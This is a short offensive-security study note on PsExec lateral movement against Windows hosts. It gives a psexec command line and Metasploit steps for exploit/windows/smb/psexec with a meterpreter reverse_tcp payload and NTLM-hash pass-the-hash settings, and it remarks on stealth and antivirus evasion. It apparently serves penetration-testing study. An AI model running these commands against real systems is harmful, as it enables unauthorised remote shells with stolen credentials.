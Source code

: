 
- PsExec is a lightweight telnet-replacement developed by Microsoft that allows you to execute processes on remote windows systems using any user’s credentials.
<br>
- PsExec authentication is performed via SMB. We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.
<br>
- It is very similar to RDP, however, instead of controlling the remote system via GUI, commands are sent via CMD.

## We can use this <mark style="background: #FF5582A6;">MSF</mark> module to perform a [[Pass-The-Hash]] Attack

 ---

- `psexec <user>@<ip address> <cmd.exe or anyfile to execute>`  
Python implementation of PsExec ( more stealthier because it is normal action )

![[psexec.py.png]]
<br>
### **<mark style="background: #FF5582A6;">MSF</mark> Module:**
- `exploit/windows/smb/psexec`  
MSF module for logging in PsExec then uploading a malicious file to establish a reverse shell session (**<mark style="background: #e74c3c;">This might trigger AVs</mark>**)
***<mark style="background: #2e86c1;">It can also be used in [[Pass-The-Hash]] Attack (When you have username and the user Hash)</mark>***
#### **Usage:**

- `use exploit/windows/smb/psexec`
- `set PAYLOAD windows/x64/meterpreter/reverse_tcp` if ur target is 64-bit use a 64-bit payload...
- `set SMBUser <Administrator>`
- `set SMBPass <NT:LM Hash for Administrator>`  # Be sure to enter the NTLM hash together....
- `set TARGET <target>` if it didn't work try to set TARGET... 
![[Pasted image 20250413221735.png | 700]]